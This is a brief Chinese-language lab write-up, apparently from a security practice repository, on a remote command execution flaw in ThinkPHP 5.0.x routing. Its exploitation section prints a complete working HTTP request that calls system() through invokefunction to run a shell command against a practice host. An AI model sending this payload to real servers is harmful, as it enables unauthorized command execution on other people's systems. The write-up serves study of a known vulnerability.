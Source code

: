 
#  thinkphp_5.0.21 命令执行 by [hu4wufu](https://github.com/hu4wufu)

## 漏洞描述

Thinkphp5.x 版本（5.0.20）中没有对路由中的控制器进行严格过滤，在存在 admin，index 模块、没有开启强制路由的条件下（默认不开启），导致可以注入恶意代码利用反射类调用命名空间其他任意内置类，完成远程代码执行。

## 影响版本

ThinkPHP 5.x < ThinkPHP 5.1.31<= ThinkPHP 5.0.23

## 利用流程

1、打开靶场、抓包分析，下面是poc，拿到flag成功。

![1](./1.png)
```
GET /index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/tmp HTTP/1.1
Host: 118.193.36.37:28446
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect=1
Upgrade-Insecure-Requests: 1

```